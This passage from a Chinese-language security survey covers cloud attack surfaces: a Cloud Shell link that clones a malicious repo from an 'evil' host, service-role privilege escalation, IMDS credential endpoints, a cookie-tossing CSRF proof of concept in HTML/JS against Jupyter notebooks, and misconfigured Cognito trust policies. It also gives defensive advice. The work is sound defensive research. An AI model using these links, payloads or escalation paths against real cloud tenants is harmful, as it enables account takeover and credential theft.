1. GCP提供了一个通过cloudshell打开github、bitbucket等代码仓库链接等功能。实际上操作链接如下，仓库链接通过cloudshell\_git\_repo提供。打开链接之后，会直接使用git clone下载对应仓库代码

   ```
   https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=http://path-to-repo/sample.git
   ```
2. 作者发现另外一个可用的参数为open\_in\_editor，该参数指向一个文件路径，在下载完代码后会进一步通过ide打开对应的文件。

   ```
   open_in_editor=some_python_file.py
   ```
3. 作者观察到ide打开py文件后多了一个进程，启动了 pyls 语言服务器(<https://github.com/palantir/python-language-server>)。

   ```
   /bin/bash /google/devshell/editor/editor_exec.sh python -m pyls
   ```
4. 通过strace分析，发现该进程通过stat系统调用来查询主目录中不存在的python包

   ```
   538 stat("/home/wtm/supervisor", 0x7ffdf08e11e0) = -1 ENOENT (No such file or directory)
   542 stat("/home/wtm/pyls", 0x7ffcbbf61a10) = -1 ENOENT (No such file or directory)
   542 stat("/home/wtm/google", 0x7ffcbbf5fe00) = -1 ENOENT (No such file or directory)
   ```
5. 当python<3.3导入包时，会自动寻找并执行**init**.py文件（环境python版本<3.3）
6. 这样就构成了一条完整的攻击链：
   1. 先创建一个github恶意项目，名字和系统调用寻找的库同名：supervisor、pyls等
   2. 将恶意代码写在项目的**init**.py
   3. 然后再生成链接：

      ```
      https://ssh.cloud.google.com/cloudshell/editor?cloudshell_git_repo=https://github/evil.git&open_in_editor=__init__.py
      ```
   4. 然受害者点击该链接后，即可获取其CloudShell权限  
      

# 四、高风险的云特性

高风险的云特性是云平台和租户责任边界的交界线，也是责任划分的灰色地带。**这些特性往往是由于云平台或云服务的底层设计机制导致，尽管有时候为租户提供了便利性，但也默认扩大了租户的攻击面**。

## 4.1 云服务角色引入的提权路径

在前面“云服务内部账号凭据泄露”一节就有提到，由于跨云服务资源访问的需求，部分云服务会要求租户授予权限，用于访问租户上其他云服务的资源实例，这个授权是通过"创建实体为云服务的角色"来实现的。



在创建云服务资源实例时可以传入对应的角色（部分云服务是必须传入角色），在某些场景下，可以在资源实例中获得该角色对应的STS（临时凭据），该STS包含了授予云服务的权限。此时，控制了资源实例，就相当于得到了对应云服务角色的权限，由此就产生了一条天然的租户内提权路径。

**场景一：利用IMDS获取VM的附加角色**


这是最常见的一种场景，拥有iam:PassRole和虚拟机创建权限的用户，在创建虚拟机实例时可以指定一个服务角色（授予对象是虚拟机服务），之后在虚拟机中就能访问元数据服务获取对应角色的临时凭据。

**案例一：escalating-aws-iam-privileges-undocumented-codestar-api**



* **原文**：<https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/>
* **服务介绍**：CodeStar 是AWS上的应用快速部署服务，让开发者在"在 AWS 上快速开发、构建和部署应用程序"。
* **影响**：用户仅需要CreateProjectFromTemplate权限，即可获得租户对CodeStar授予的权限，默认有50+服务的完全访问权限，并且还有部分IAM权限例如：iam:AttachRolePolicy，可以进一步提权到整个租户的管理员权限。
* **过程**：作者在console创建CodeStar实例时，发现API仅需要codestar:CreateProjectFromTemplate权限即可通过默认角色（CodeStarWorker-<project name="">-Owner）来创建出CodeStar实例，并且可以从实例中获取角色的临时凭据。</project>
* **AWS的修复方案**：
  1. 削减codestar服务角色的默认权限，不再拥有管理员
  2. 修改创建动作的默认API，改用"codestar: CreateProject" + "iam: PassRole"的API模式来创建，不再使用"codestar: CreateProjectFromTemplate"。 但CreateProjectFromTemplate在作者验证的时候依然是可用的，推测是因为兼容某些服务版本的原因。

**案例二：Escalating Privileges with Azure Function Apps**



* **原文**：<https://www.netspi.com/blog/technical-blog/cloud-penetration-testing/azure-function-apps/>
* **服务介绍**：Azure Function Apps，Azure的云函数，FaaS
* **影响**：只要有云函数的读权限，即可提权至函数的完全控制权限
* **过程**：Azure Function Apps允许具有"Reader"权限的用户查看函数代码，以及函数关联的文件。作者发现对应的API允许访问函数底层容器的文件系统，通过/proc来读进程的环境变量，从环境变量中得到了临时凭据，利用该凭据可以更新和修改云函数实例。
* **Azure的修复方案**：只有函数的读权限不再允许调用VFS API，无法访问函数底层的文件系统。

**案例三：ConfusedFunction**



* **原文**：<https://www.tenable.com/blog/confusedfunction-a-privilege-escalation-vulnerability-impacting-gcp-cloud-functions>
* **服务介绍**：
  + **Cloud Function** ：GCP的云函数服务
  + **Cloud Build** ：GCP提供的构建服务，允许开发者在云端构建、测试和部署代码。
* **影响**：有Cloud Function创建权限的IAM用户，可以获取租户对Cloud Build授予的权限
* **过程**：简单来说，用户创建Cloud Function实例时使用了Cloud Build来部署，而Cloud Build实例默认附加了一个云服务角色，用户通过依赖下载的动作，可以在Cloud Build实例中执行代码，然后进一步获取云服务角色的STS。
* **GCP的修复方案**：
  1. 第一次更新：GCP 在 Cloud Functions 中添加了一个选项，该选项涉及在函数部署过程中部署的 Cloud Build 实例使用自定义服务角色。（允许租户选择使用的角色）
  2. 第二次更新：更改了 Cloud Build 和默认 Cloud Build 服务角色的默认权限。同时，允许租户选择CloudBuild默认使用哪个服务角色。（对默认服务角色降权）

**小结**

"利用云服务角色进行提权"是漏洞还是高风险的特性？从公开案例来看，如下场景一般会被判定为漏洞：

1. **仅需要Read/List权限就能获取实例中的云服务角色凭据，完成提权**
2. **仅需要Create权限+默认云服务角色权限过大**

相反，不被判定为漏洞的场景：iam:PassRole权限+用户自定义服务角色

## 4.2 利用云平台内部IP打破网络隔离

云平台存在一个大内网供服务使用，默认所有资源实例都可以访问。这样很自然就会想到：如果某个VM本身没有绑定EIP，原本只能在vpc内访问，那能否通过平台内网IP来中转出网？答案是肯定的，这里通过阿里云的API网关服务来做一个示例。

在攻击者的租户上，创建一个API网关，并申请VPC内网域名，后端服务指向HTTP服务还是其他都不重要，关键是攻击者控制的即可。





在目标租户的VM上访问，这里的VM并没有绑定EIP，无法访问公网，但能通过内网域名访问到攻击者的机器。





如果你ping过这类内网域名，会发现解析的IP是100.x.x.x，这就是上面所说的云平台大内网。



利用这个机制可以打破网络隔离，可以让不出网的机器直接回连。除了C2外，在需要网络条件的漏洞利用也有很大的作用。

假设目标主机有如下一段漏洞代码：通过URLClassLoader来加载任意类，但目标主机不出网，没有绑定EIP，也没有NAT。

```
import java.net.MalformedURLException;
import java.net.URL;
import java.net.URLClassLoader;

public class RemoteHTTPLoader {
    public static void main(String[] args) throws Exception {
        if(args.length != 2 ){
            System.out.println("java  RemoteHTTPLoader test http://url");
            return;
        }
        loadClass(args[0],args[1]);
    }


    public static Class loadClass(String className,String url) throws MalformedURLException, ClassNotFoundException {
        URL[] urls = {new URL(url)};
        URLClassLoader cl = URLClassLoader.newInstance(urls);
        Class clazz = Class.forName( className, true, cl );
        return clazz;
    }
}
```

只要将url设置为攻击者的API网关内网VPC域名就能完成利用。





这里只是使用API网关服务作为示例，关键还是平台大内网的机制，只要可以通过内网IP访问到租户控制的某个云上资源实例，理论上都能通过这种方式直接或间接出网。

## 4.3 隐式API

在云环境中，**有一些天然存在的API服务可从任意资源实例中访问**，而这些API有可能会返回敏感信息，在一些场景中会发挥出巨大的威力：

* 结合SSRF、XXE类漏洞利用
* 从容器中访问
* 在内网横移中使用

这些API本身可能造成巨大的安全风险，但并非所有租户都能意识到API背后的隐患，因此笔者暂时将这一类API称为"隐式API"，例如：

* **IMDS（实例元数据服务）**：可以获取VM网络、规格等信息，劫持本机与元数据服务的通信，有机会造成提权甚至容器逃逸的可能。对于绑定了角色的VM实例，可通过该API获取临时凭据进一步攻击租户。
  + AWS、Azure、华为云：<http://169.254.169.254>
  + GCP：<http://metadata.google.internal>
  + 阿里云：<http://100.100.100.200>
  + 腾讯云：<http://metadata.tencentyun.com>
* **WireServer**：168.63.129.16，负责Azure虚拟机的扩展管理，与本机的WireAgent通信传输扩展的配置，可能会包含敏感信息
* **任务元数据服务**：169.254.170.2，提供检索各种任务元数据和Docker统计数据的方法

除了IMDS这种通用的隐式API，各个云厂商还会根据自身服务架构提供不同的隐式AP，例如Azure上的168.63.129.16。

**各个云厂商独特的部分可能蕴含了更大的风险，**像IMDS这种在过往几年已经被多次研究和提及，租户还是有一定意识的，并且云厂商也推出IMDSv2来进行缓解。

## 4.4 共享父域引入的风险

**共享父域**：云服务给租户分配一个子域名，例如API管理服务、对象存储等等。租户可以在该域名下执行任意JS代码，而不同租户分配的域名实际都有同一个父域，例如AWS API Gateway服务： <https://{xxxxxx}.execute-api.eu-central-1.amazonaws.com。>

使用共享父域会引入一些额外的风险：

1. 往父域写cookie：有机会绕过CSRF保护；配合会话固定漏洞利用；cookie炸弹；
2. 读父域cookie：如果父域cookie包含了敏感信息，则会机会窃取
3. 域名校验绕过：域名白名单在各类业务中广泛使用，如果没意识到有公共父域的存在，有可能会出现校验错误的情况。

在描述案例前，还有一些前置的知识需要了解：

1. 同站（samesite）：同站要比同源宽松，例如Cookie中的「同站」判断：只要两个 URL 的 eTLD+1 相同即可，不需要考虑协议和端口。其中，eTLD（Top Level Domain） 表示有效顶级域名，例如.com。
2. cookie设置规则：子域可以读写父域的cookie，反过来则不行。
3. cookie优先级：如果两个不同的子域名设置了同名cookie，会优先使用Path设置更为严格的cookie。

**案例：cookie-tossing-to-rce-on-google-cloud-jupyter-notebooks**

* **原文**：<https://blog.s1r1us.ninja/research/cookie-tossing-to-rce-on-google-cloud-jupyter-notebooks>
* **服务介绍**：AI Hub是GCP提供的机器学习一站式平台，服务内嵌了JupyterLab，JupyterLab 是一个基于 Web 的交互式开发环境，让用户直接方便使用，这也是各个云厂商AI开发平台的标准做法了。
* **影响**：一次点击接管Notebook
* **过程**：
* 使用GCP AI HUB服务的notebook容器时，会分配一个域名：random-id.notebooks.googleusercontent.com，通过域名就能访问notebook。
* 作者发现了一个selfxss：登录到 VM 实例并更改位于 /opt/conda/share/jupyter/lab/static 的文件来更改 Jupyter Notebook 的源代码，即可实现。
* 服务通过cookie中的\_xsrf和X-XSRFToken一致性来防护CSRF漏洞。由于同父域的原因，可以覆盖cookie中的\_xsrf，但无法修改X-XSRFToken头（因为要发出post请求修改，跨域拦截了），因此还是无法实现CSRF攻击。
* Jupyter使用了tornado webserver，csrf校验正是tornado框架实现的，通过代码发现，tornado支持通过query来发送CSRFToken，而无需依靠X-XSRFToken头。这样一来就能同时控制cookie中的\_xsrf和X-XSRFToken头了。
* POC：

  ```
  <!--  https://attacker(randomId)-dot-us-west1.notebooks.googleusercontent.com/ -->
  <html>
  <form action="https://victim(randomId)-dot-us-west1.notebooks.googleusercontent.com/lab?authuser=1/lab/api/extensions?_xsrf=1" method="POST" enctype="text/plain">
   <input type="hidden" name="any post data" />
   <input type="submit" value="Submit request" />
  </form>
  <script type="text/javascript">
   var base_domain = document.domain.substr(document.domain.indexOf('.'));
   document.cookie='_xsrf=1;Domain='+base_domain;
   console.log('done');
   document.forms[0].submit();
  </script>
  </html>

  ```
* 此时已经能实现POST型的CSRF攻击了，此时再结合一个功能点：安装扩展，即可完成Notebook容器接管。

针对大部分共享父域的风险，都可以通过PSL（Public Suffix List，公共后缀列表）来缓解，完整的 PSL 可以从这个地址获得：publicsuffix.org/list/public\_suffix\_list.dat，加入PSL的域名被看作公共资源，有如下特性：

* 不允许将cookie设置为PSL列表中的域名
* PSL列表中域名的子域名，不允许将cookie设置到父域名

## 4.5 云凭据即运维系统

传统环境中，运维系统一般部署在内网，通常需要打通多层网络隔离才能访问。

**在云环境中，AKSK、STS等云凭据实质上充当了运维系统凭据，云服务API则充当了运维系统API**，默认可从公网直接调用，也可以访问云平台内网的端点进行调用。同时STS在资源实例中广泛存在，加上不同云平台IAM能力的差异，让"隔离"难度大大增加。再结合公开的云服务API，就产生了五花八门的利用手段：

* **权限获取**：虚拟机下发命令、获取集群证书、下发工作负载等
* **网络隔离打破**：为实例绑定EIP、创建VPC对等连接、创建NAT网关等
* **权限提升**：利用服务角色提权、利用IAM能力提权、进入实例收集新凭据等
* **数据泄露**：对象存储下载、利用资源共享功能（共享存储卷、镜像、存储桶复制）等
* **权限维持**：创建子用户、创建AKSK、创建后门实例+绑定高权限角色等
* **...**

种种因素都大大降低了云凭据的利用条件和难度，**个人经验来看，云凭据的管理和监控可能是企业上云面临的最大难题**。

## 4.6 可将攻击技术应用于云服务

**几乎所有云服务都可以看作一类特殊的租户**：

1. 用云服务构建云服务是各个云厂商的通用做法
2. 云服务间的调用、云服务内部账号的凭据也遵循IAM的规则

**因此理论上所有对租户的攻击技术，也能应用在攻击云服务上**。

有时候要将“云服务A中非跨租户的漏洞”转化为“跨租户的影响”，最便捷的方式甚至就是找到使用云服务A的云服务B，然后在云服务B上应用该漏洞。并且这里面可能会产生更严重的连锁反应，因为不排除会有云服务C又用了云服务B...，而本身只用了云服务C的租户，也可能由于连锁反应而受到了直接影响。

# 五、错误的云配置

由于租户不熟悉云服务的机制和配置引入的问题，公开案例中，错误云配置大部分都集中于两类服务：

* 对象存储，例如AWS S3
* 认证类服务，例如AWS IAM、AWS Cognito

虽然错误的云服务配置肯定不止这些，不过说到底，云服务的错误配置核心基本还是"访问控制、认证、授权"，下面也以这两类服务作为代表来展开分析。

## 5.1 对象存储使用不当

作为近年来数据泄露的常见载体，相信大家都对对象存储有所耳闻。

各个云厂商的对象存储服务在控制策略上都大差不差，这里借用华为云的一张图：<https://support.huaweicloud.com/perms-cfg-obs/obs_40_0001.html>



对象存储使用不当的常见场景包括：

1. **基于资源的权限控制策略配置不当，导致了匿名列、读、写**：最常见的错误配置场景。
2. **将AKSK、STS直接返回给前端来读写对象存储桶**：这是一个典型的图省事的做法，如果认为前后端传文件浪费网络带宽，那么可由后端生成一个临时文件共享连接，前端直接加载。
3. **存储桶抢注**：已删除的存储桶依然被引用，又或者是抢注不同region下的同名桶。
4. **桶文件解析导致的XSS**：业务场景：业务支持用户上传任意文件到桶，桶配置了解析HTML等静态资源文件，此时如果业务恰好又为桶绑定了自家的域名，就有可能产生一个有用的XSS桶。这种场景下，建议存储用户上传数据的桶不要解析静态资源。
5. **临时共享连接路径校验不当**：对象存储服务支持为某个文件生成临时共享连接，有这样一个业务场景：业务为用户提供文件下载服务，用户提供文件路径，服务根据路径生成临时共享连接返回给用户。就像文件遍历漏洞一样，如果服务对文件路径校验不当，就有可能产生存储桶任意遍历和下载的问题。

这里想单独拿出来讲一下的是**存储桶抢注的场景**，今年在blackhat看到了一个议题《Breaching AWS Accounts Through Shadow Resources》



* **原文**：<https://www.blackhat.com/us-24/briefings/schedule/#breaching-aws-accounts-through-shadow-resources-39706>
* **服务介绍**：议题介绍了6个云服务有此类风险，上图引用的是AWS CloudFormation的攻击路径
* **影响**：拒绝服务、信息泄漏；获取租户授予云服务角色的权限、RCE等；其中前两类危害在各个云服务都普遍存在，后面的危害则和云服务的特性有关（因为涉及篡改存放的数据来进一步攻击）。
* **成因**：

云服务为租户创建的S3存储桶（作者称为影子S3存储桶）名称是可以预测的（可以根据regionA推断出在regionB的影子S3存储桶名称），而不同region下的S3存储桶名称是唯一的，当攻击者知道了租户在regionA下影子S3存储桶的名称，即可抢注在regionB下相同名称的S3存储桶。当租户后续在regionB下首次使用该服务时，会直接用攻击者注册的同名存储桶（没有校验Bucket的属主）。

最终导致了租户创建自己的云服务资源实例时，却用了攻击者的存储桶来存放数据（具体用途取决于服务如何使用存储桶）。

实质上就是使用了存储桶抢注的攻击技术，只不过这次抢注的是云服务的存储桶。

## 5.2 AWS Cognito配置不当

AWS Cognito服务为用户开发的Web和移动应用程序提供身份认证和访问管理。该服务有两个核心概念：用户池和身份池，前者保存所有用户，后者将用户映射到AWS角色、访问租户的资源。**当身份池配置错误，会让通过Cognito认证的用户、甚至是匿名用户来扮演租户的角色，从而获得租户的权限**。

有安全研究员在2019年的时候发布了一个白皮书，对暴露到公网的AWS Cognito身份池进行大规模分析，结果：该研究确定了 2500 个身份池，有大量配置错误的身份池，可用于访问超过 13000 个 S3 非公开存储桶、1200 个 DynamoDB 表和 1500 个 Lambda 函数。原文：<https://andresriancho.com/internet-scale-analysis-of-aws-cognito-security/>

类似地，笔者打算介绍另外一个AWS云服务错误配置AWS Cognito的案例：AWS Amplify IAM role publicly assumable exposure，如果云厂商自身的服务都出现错误配置的情况，应该更能说明配置有不少坑点。



* **原文**：<https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/>
* **服务介绍**：AWS Amplify服务提供了一系列的产品和工具，可让移动和前端 Web 开发人员构建和部署全栈应用程序
* **影响**：跨租户扮演IAM角色，最终影响取决于角色的权限配置

在描述漏洞成因前，需要先了解一下Cognito配置错误的场景，很幸运这个案例的原文对三类错误配置场景描述非常清晰，这里直接搬原文翻译一下。

**场景一：未设置Condition**

Amazon Cognito 有用户池（User pools）和身份池（Identity pools）两个概念，前者负责提供身份验证服务，后者的功能则是将某个用户身份映射到租户的IAM角色，允许租户授权经过身份验证的或匿名用户访问 AWS 资源。错误的身份池配置会导致租户IAM权限暴露给外部。

要实现IAM映射，Cognito 在 AWS 账户中创建一个角色，其角色信任策略类似如下：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "cognito-identity.amazonaws.com:aud": "us-east-1:00000000-aaaa-1111-bbbb-222222222222"
                },
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}
```

这条策略的重点在于Condition部分，表明了只有经过了cognito身份认证且aud为us-east-1:00000000-aaaa-1111-bbbb-222222222222的用户才可以代入该角色。如果没有设置Condition，那意味着所有人都可以通过cognito服务来代码该角色（混淆代理人）。

* cognito-identity.amazonaws.com:aud：身份池令牌中的 aud 声明必须与可信身份池 ID 相匹配。
* cognito-identity.amazonaws.com:amr：身份池令牌中的 amr 声明必须经过身份验证或未经身份验证。

为了承担角色信任策略配置错误的 IAM 角色，首先要说服 Cognito 服务代表调用者承担该角色。在大部分场景，这都是不允许的，例如在攻击者的身份池扮演其他账号配置错误的角色，会直接报错：

```
nick.frichette@host % aws cognito-identity set-identity-pool-roles \
--identity-pool-id us-east-1:11111111-aaaa-2222-bbbb-333333333333 \
--roles unauthenticated=arn:aws:iam::222222222222:role/role-in-different-aws-account

An error occurred (AccessDeniedException) when calling the SetIdentityPoolRoles operation: Cross-account pass role is not allowed.
```

但有另外一个方法可以绕过该限制，那就是用cognito Basic (classic) authflow（<https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html>），最后一步是sts:AssumeRoleWithWebIdentity API来获取指定角色的STS，在API参数中提供角色ARN，该API不会强制校验所提供的角色ARN是否归属当前租户。



因此，如果遇到了如下形式的配置错误配置（没有设置Condition，将允许任何 Cognito 身份池承担该角色）：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
}
```

就可以在攻击者自己创建的Cognito身份池中调用sts:AssumeRoleWithWebIdentity API，并指定ARN为目标租户的角色ARN



**场景二：Condition仅将amr设置为unauthenticated**

另外一种错误的配置方式：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "unauthenticated"
                }
            }
        }
    ]
}

```

该角色信任策略实际上和不设置Condition的结果是一样的，可以用相同的攻击方法。

这是因为由于IAM仅仅会将Condition与攻击者控制的身份池进行比较，因此只要从攻击控制的身份池拿出一个访客角色（未认证）即可完成利用。

**场景三：Condition仅将amr设置为authenticated**

和第二类场景是类似的，只配置cognito-identity.amazonaws.com:amr是不够的，因为IAM验证时并不会强制校验身份池的归属，除非在角色信任策略中设置cognito-identity.amazonaws.com:aud。只不过这种错误配置的利用方法多了一些步骤，需要先从攻击者的身份池中通过认证并拿到一个IdToken，错误配置的例子如下：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated"
                }
            }
        }
    ]
}

```

**回到"AWS Amplify IAM role publicly assumable exposure"漏洞**：

1. Amplify支持用户添加身份认证组件，当使用Amplify CLI添加身份认证组件后，新建出来的两条策略如下，这两条策略是安全的。

   ```
   {
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "cognito-identity.amazonaws.com:aud": "<Cognito Identity Pool Id>"
                },
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "<authenticated || unauthenticated>"
                }
            }
        }
    ]
   }
   ```
2. 如果用户后续从 Amplify 应用程序中删除身份验证组件，Amplify 会删除后端的这些 Cognito 资源，并修改 auth 和 unauth 角色的角色信任策略如下。

   ```
   {
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity"
        }
    ]
   }
   ```

   这就是漏洞产生的原因，相当于如果添加了身份验证组件后又删除了，就会遗留一条不安全的配置，相当于上面的场景一。
3. 除此以外，还有另外一类不安全的配置，相当于场景三，最终发现这是2019年8月8日之前的默认配置，也就是说在该时间之前使用了Amplify CLI添加身份认证组件，就会直接产生一条不安全的配置。

   ```
   {
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "",
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "ForAnyValue:StringLike": {
                    "cognito-identity.amazonaws.com:amr": "authenticated",
                }
            }
        }
    ]
   }
   ```

# 六、写在最后

每个攻击面其实都有不少的公开案例，本文挑选案例主要有两个考量：

1. 案例是否典型，可以清晰描述笔者想表达的攻击面或者安全风险
2. 案例是否足够精彩，毕竟更精妙的漏洞和复杂的攻击路径总是会让人更印象深刻：）

因此如果发现部分云厂商的案例出现得更频繁，纯属巧合。

受制于篇幅的原因，本文对部分案例的技术细节没有完全展开，这些案例大都包含很多有意思的技术点和漏洞发现过程，推荐有兴趣的读者去阅读原文。

本文旨在从蓝军视角出发，以相对概括性的维度来分析企业上云后面临的新攻击面，但具体到某个云厂商或者是云服务，还有不少细枝末节各不相同，所谓魔鬼藏在细节里~

最后循例给出一些安全建议。

**云厂商**：

* 增强云服务资源实例隔离边界的防护，针对不同形态云服务推出标准化的隔离最佳实践
* 云服务角色权限最小化，尽可能避免使用默认角色
* 审视软件转换为云服务过程中保留的高风险特性
* 默认安全的实例配置，高风险配置提醒
* 增强IAM能力，支持更细粒度的管控
* 针对高风险云特性推出缓解措施，例如AWS在2019年推出的IMDSv2就是一项很好的措施。原文：<https://aws.amazon.com/cn/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/>，里面增加的几项限制显然是经过了不少的场景分析：
  + 不允许带有XFF头
  + 获取信息需要分两步进行（IMDSv1仅通过一个GET请求完成），第一步先通过PUT请求获取token，第二部携带token发送请求
  + IMDSv2相应包默认TTL（Time To Live，每经过一个网络设备就-1）为1，默认无法从容器访问IMDSv2

**租户**：

* 建立云凭据的安全使用规范和异常调用检测机制
* 熟悉云服务、识别服务中潜在的高风险配置
* 业务设计和开发过程中要考虑到云上的安全风险，例如SSRF的防护就应该把IMDS等考虑在内
* 定期审视IAM用户和角色的授权策略，权限最小化，更新长期凭据
* 敏感数据加密存储，解密物料和数据存储分离
* 及时跟进云平台/云服务的安全资讯

# 七、参考

* <https://www.cloudvulndb.org/>
* <https://www.wiz.io/blog/>
* <https://www.aquasec.com/blog/>
* <https://frichetten.com/blog/>
* [https://www.tenable.com/blog/](https://www.tenable.com/blog/search?field_blog_section_tid=49)
* <https://medium.com/tenable-techblog>
* <https://rhinosecuritylabs.com/blog/>
* <https://www.legitsecurity.com/blog>
* <https://www.netspi.com/blog/technical-blog/>
* <https://www.paloaltonetworks.com/prisma/cloud/research/>
* <https://orca.security/resources/blog/>
* <https://unit42.paloaltonetworks.com/category/threat-research/>
* <https://www.praetorian.com/blog/>
* <https://securitylabs.datadoghq.com/articles/>
* <https://research.checkpoint.com/>
* <https://hackingthe.cloud/>
* <https://cloudsecwiki.com/index.html>
* <https://www.blackhat.com/html/archives.html>
* <https://notsosecure.com/blog>
* <https://onecloudplease.com/blog>
* <https://blog.appsecco.com/>
* <https://medium.com/cloud-security>
* <https://sysdig.com/blog/>
* <https://www.pentagrid.ch/en/blog/>
* <https://blog.polybdenum.com/>
* <https://dirkjanm.io/>
* <https://www.cyberark.com/resources>
* <https://www.securityweek.com/category/cloud-security/>
* <https://cloudsecdocs.com/>
* <https://cloud.hacktricks.xyz/>
* <https://blog.christophetd.fr/>
* <https://intezer.com/blog/research/>
* <https://www.panoptica.app/blog/>
* <https://kmcquade.com/>
* <https://insecurity.blog/>
* <https://summitroute.com/blog/>
* <https://labs.detectify.com/category/writeups/>
* <https://engineering.sada.com/>
* <https://media.defcon.org/>
* <https://wiki.teamssix.com/>
